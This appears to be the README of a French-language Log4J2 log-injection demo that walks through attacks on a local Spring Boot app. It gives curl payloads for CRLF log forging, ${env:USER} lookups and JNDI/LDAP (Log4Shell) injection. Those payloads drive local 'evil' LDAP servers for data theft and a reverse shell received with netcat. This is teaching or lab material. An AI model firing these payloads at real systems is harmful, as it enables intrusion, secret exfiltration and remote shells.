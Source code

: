 # Log Injection with Spring Boot and Log4J2

## Usage

Testé avec Java 17. 
Mettre à jour la variable d'environnement JAVA_HOME si nécessaire.

- Run

```shell
./gradlew bootRun
```

- Request

```shell
curl http://localhost:8080/\?name\=Frodon
```

## Hack

### Using CRLF injection

```shell
curl http://localhost:8080/\?name\=Marty%0d%0a2023-09-08%2010%3A40%3A01.108%20DEBUG%202175773%20---%20%5Bnio-8080-exec-1%5D%20n.e.d.HelloController%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3A%20You%20have%20been%20pwed%0A
```

### Using date lookup

Date lookup ``${date:yyyyMMdd-HHmmss}``:

```shell
curl http://localhost:8080/\?name\=%24%7Bdate%3AyyyyMMdd-HHmmss%7D
```

### Using env lookup

Env lookup ``${env:USER}``:

```shell
curl http://localhost:8080/\?name\=%24%7Benv%3AUSER%7D
```

### Using JNDI Injection + LDAP (OpenKeyPassExploit)

- Run the evil ldap server

```shell
javac evil/ldap/OpenKeyPassExploit.java
python evil/ldap/server.py OpenKeyPassExploit
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (StealEnvUserNameExploit)

- Run the evil ldap & receiver server

```shell
javac evil/ldap/StealEnvUserNameExploit.java
python evil/ldap/server.py StealEnvUserNameExploit
python evil/receiver/server.py
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (ReverseShellExploit)

- Run the evil ldap

```shell
javac evil/ldap/ReverseShellExploit.java
python evil/ldap/server.py ReverseShellExploit
```

- Listening for incoming (evil)

```shell
nc -lv 9001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```
